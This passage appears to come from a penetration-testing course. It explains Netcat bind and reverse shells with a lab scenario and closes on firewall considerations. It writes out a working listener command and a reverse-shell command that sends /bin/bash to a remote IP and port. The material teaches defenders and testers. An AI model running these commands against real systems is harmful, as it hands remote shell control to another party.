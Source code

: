 C:\Users\offsec> nc -nlvp 4444

" Using nc to set up a listener in order to receive a reverse shell "

Now, Alice can send a reverse shell from her Linux machine to Bob. Once again, we use the -e option to make an application available remotely, which in this case happens to be /bin/bash, the Linux shell:

kali@kali:~$ ip address show eth0 | grep inet

kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash

" Using nc to send a reverse shell "

Once the connection is established, Alice’s Netcat will have redirected /bin/bash input, output, and error data streams to Bob’s machine on port 4444, and Bob can interact with that shell:

C:\Users\offsec>nc -nlvp 4444

ip address show eth0 | grep inet


Take some time to consider the differences between bind and reverse shells, and how these differences may apply to various firewall configurations from an organizational security standpoint. It is important to realize that outgoing traffic can be just as harmful as incoming traffic. The following image depicts the reverse shell scenario where Bob gets remote shell access on Alice’s Linux machine, traversing the corporate firewall:
